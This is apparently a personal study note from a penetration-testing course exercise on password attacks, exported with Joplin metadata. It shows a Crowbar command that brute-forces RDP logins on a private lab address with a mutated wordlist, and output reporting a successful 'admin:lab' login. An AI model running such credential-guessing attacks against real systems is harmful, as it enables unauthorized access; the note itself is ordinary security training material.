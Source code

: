 19.3.2.1

# 19.3.2.1
## 19.3.2.1.1. Create a password list containing your Windows client password and use that to repeat the above Crowbar password attack against the Windows client.

```plaintext

kali@kali:~/gitWorkspace/pwk/oscpExercises/19_passwordAttacks$ crowbar -b rdp -s 192.168.214.10/32 -u admin -C crowbar-mutated.txt -n 1
2020-10-03 19:27:30 START
2020-10-03 19:27:30 Crowbar v0.4.1
2020-10-03 19:27:30 Trying 192.168.214.10:3389
2020-10-03 19:27:35 RDP-SUCCESS : 192.168.214.10:3389 - admin:lab

```

id: c97744b7e993438d9728b5a1bfecb460
parent_id: 10a0b7bc08514a878003f80d29fd83e3
created_time: 2020-10-03T22:27:36.121Z
updated_time: 2020-10-03T23:28:02.719Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-03T22:27:36.121Z
user_updated_time: 2020-10-03T23:28:02.719Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1